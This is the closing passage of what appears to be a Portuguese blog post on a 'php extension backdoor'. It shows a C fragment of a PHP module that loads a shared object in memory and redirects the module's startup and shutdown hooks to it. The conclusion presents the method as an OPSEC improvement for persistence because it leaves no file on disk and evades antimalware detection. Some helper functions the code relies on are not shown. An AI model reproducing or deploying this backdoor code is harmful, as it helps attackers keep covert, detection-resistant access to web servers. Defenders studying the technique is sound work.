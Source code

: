 ```c
    STANDARD_MODULE_HEADER,
    "l33t",                  
    NULL,                   
    NULL,                           
    NULL,                           
    NULL,           
    NULL,                           
    NULL,           
    "2.0",     
    STANDARD_MODULE_PROPERTIES
};
__attribute__((visibility("default")))
extern zend_module_entry *get_module(void){
    patch_all();
    void *handler = dlopen("./magic.so", RTLD_LAZY); 
    restore();

    static Dl_info info;
    dladdr(&info, &info);
    uint64_t diffLoad = (uint64_t)&onLoad - (uint64_t)info.dli_fbase;
    uint64_t diffRequest = (uint64_t)&onRequest - (uint64_t)info.dli_fbase;
    uint64_t newLoad = first + diffLoad;
    uint64_t newRequest = first + diffRequest;

    uint64_t diffModule = (uint64_t)&l33t_module_entry - (uint64_t)info.dli_fbase;
    ((zend_module_entry *)(diffModule + first))->module_startup_func = (void *)newLoad;
    ((zend_module_entry *)(diffModule + first))->request_shutdown_func = (void *)newRequest;
    return (void *)(diffModule + first);
}
#ifdef COMPILE_DL
# ifdef ZTS
ZEND_TSRMLS_CACHE_DEFINE()
# endif
ZEND_GET_MODULE(l33t)
#endif
```
# Conclusão
Eu digo que esta técnica é mais focada em OPSEC **comparada à técnica antiga** pois como eu disse anteriormente, a técnica antiga utilizava os hooks **MINIT** e **MSHUTDOWN** que gravavam o **Shared Object** no disco, deixando rastros. Com esta técnica o **Shared Object** é gravado completamente na memória, o que dificulta o processo de detecção por softwares antimalware.

Lembrando, esta não é a melhor técnica para OPSEC e é apenas uma PoC de como carregar um Shared Object na memória com o `memdlopen`/`dlopen` em um módulo do php usado pra persistência, também conhecido como **php extension backdoor**.

Agora você sabe a utilidade de extensões do PHP como método de persistência até que complexo kkkkkk mas vale a pena no final, também existem métodos semelhantes como criar um módulo pro Apache e outros do tipo.

P-P-Por hoje é só, pessoal!
![P-P-Por hoje é só, pessoal](https://steamuserimages-a.akamaihd.net/ugc/400056371821448664/44C8B2511367BF29AA14BF43D7FA39C5C3F95FD4/?imw=5000&imh=5000&ima=fit&impolicy=Letterbox&imcolor=%23000000&letterbox=false)
